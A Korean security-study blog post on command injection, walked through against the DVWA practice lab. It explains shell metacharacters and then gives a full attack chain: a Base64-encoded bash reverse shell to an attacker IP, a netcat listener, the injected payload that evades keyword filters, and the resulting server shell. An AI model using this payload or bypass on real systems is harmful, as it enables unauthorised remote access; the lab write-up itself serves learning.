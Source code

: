 ```yaml
---
layout: post
title: "명령어 인젝션 공부"
date: 2025-09-03 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

#### **키워드 필터링 우회 (Base64 인코딩)**

`cat`, `ls`, `bash` 등 특정 명령어가 서버에서 차단될 경우,  
공격자는 명령어를 **Base64로 인코딩**해 필터를 우회할 수 있다.  
서버 측에서 이를 디코딩 후 실행하면, 차단되지 않은 상태로 명령어가 수행된다.

#### **공격 흐름 (5단계)**

**1. 공격자: 리버스 셸 페이로드 인코딩**  
로컬 머신에서 실행할 명령어를 Base64로 인코딩한다.

```bash
$ echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx
```

>  인코딩된 문자열(`YmFzaC...`)을 복사해 둔다.

---

**2. 공격자: 리스너 준비**  
Netcat으로 4444 포트에서 연결을 기다린다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

---

**3. 공격: DVWA에 페이로드 삽입**  
DVWA의 `Command Injection` 입력란에 다음을 전달한다.

```text
127.0.0.1; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuOS4yMDAuMTIvNDQ0NCAwPiYx | base64 -d | bash
```

- `127.0.0.1`은 원래 ping 명령의 대상 (정상 요청처럼 위장)  
- `;` 이후가 실제 공격 페이로드  
- `echo ... | base64 -d | bash` → 인코딩된 명령어를 디코딩 후 실행

---

**4. 서버: 명령어 실행**  
서버는 내부적으로 다음을 수행한다:

```bash
# 1. echo로 인코딩 문자열 출력
# 2. base64 -d로 디코딩 → "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1"
# 3. 그 결과를 bash에 파이프 → 리버스 셸 연결 시도
```

---

**5. 공격 성공: 리버스 셸 획득**  
공격자의 Netcat 터미널에 연결이 수립되고, 쉘 접근이 가능해진다.

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.9.200.12] from (UNKNOWN) [192.9.200.11] 38912
www-data@dvwa:/var/www/html$
www-data@dvwa:/var/www/html$ whoami
www-data
```

>  이 시점에서 공격자는 서버의 `www-data` 권한으로 명령어를 자유롭게 실행할 수 있다.

---

### 왜 이 방식이 효과적인가?

- **필터링 회피**: `bash`, `/dev/tcp` 같은 키워드가 직접 전달되지 않음  
- **유연성**: 어떤 명령어든 Base64로 감싸 전달 가능  
- **실전 적용**: `A01:2021` 보고서에서도 동일 기법으로 서버 제어권 확보

<hr class="short-rule">